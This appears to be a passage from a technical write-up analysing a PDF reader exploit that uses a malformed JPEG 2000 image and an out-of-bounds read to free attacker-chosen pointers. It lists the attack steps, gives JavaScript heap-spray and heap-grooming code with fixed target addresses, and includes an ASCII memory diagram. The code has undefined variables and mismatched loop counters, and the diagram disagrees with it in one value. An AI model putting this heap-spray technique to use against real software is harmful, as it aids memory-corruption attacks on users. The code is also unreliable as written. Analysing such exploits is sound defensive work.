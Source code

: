 <div markdown="1" class="cn">
1. Load PDF, parse (presumably) a malformed JP2K image inside of a field button.
2. Allocate a large amount of ArrayBuffer's that are just larger than the buffer that is read out of bounds
3. Set the precise index (which is 249 and 250) with pointers to what the attackers want to free
4. Free every second ArrayBuffer so that the allocation will land in a slot
5. Trigger the bug which actually allocates into a slot and read out of bounds, freeing the two pointers
</div>

<p class="cn" markdown="1">This is what the JavaScript code looks like to so this:</p>

```JavaScript
var a         = new Array(0x3000);
var spraynum  = 0x1000;
var sprayarr  = new Array(spraynum);
var spraylen  = 0x10000-24;
var spraybase = 0x0d0e0048;
var spraypos  = 0x0d0f0058;

// force allocations to prepare the heap for the oob read
for(var i1 = 1; i1 < 0x3000; i1++){
    a[i] = new Uint32Array(252);
    a1[i1][249] = spraybase;
    a1[i1][250] = spraybase + 0x10000;
}

// heap spray to land ArrayBuffers at 0x0d0e0048 and 0x0d0f0048
for(var i1 = 1; i1 < spraynum; i++){
    sprayarr[i1] = new ArrayBuffer(spraylen);
}

// make holes so the oob read chunk lands here
for(var i1 = 1; i1 < 0x3000; i1 = i1 + 2){
    delete a[i1];
    a[i1] = null;
}
```

<p class="cn" markdown="1">Essentially what this code is doing to get the frees:</p>

```JavaScript
1. Alloc TypedArray         2. Free TypedArray           3. Alloc from JP2KLib        4. OOB Read + free!
+--------------------+      +---------------------+      +---------------------+      +---------------------+
|                    |      |                     |      | +-----------------+ |      | +-----------------+ |
|                    |      |                     |      | |                 | |      | |                 | +-----+
|                    |      |                     |      | |                 | |      | |                 | +---+ |
|                    | +--> |                     | +--> | |Size: 0x3f4      | | +--> | |Size: 0x3f4      | |   | |
|                    |      |                     |      | +-----------------+ |      | +-----------------+ |   | |
| +249: 0x0d0e0048   |      | +249: 0x0d0e0048    |      | +249: 0x0d0e0048    |      | +249: 0x0d0e0048    | <-+ |
| +250: 0x0d0e0048   |      | +250: 0x0d0e0048    |      | +250: 0x0d0e0048    |      | +250: 0x0d0e0048    | <---+
+--------------------+      +---------------------+      +---------------------+      +---------------------+
Size: 0x400                 Size: 0x400                  Size: 0x400                  Size: 0x400
```
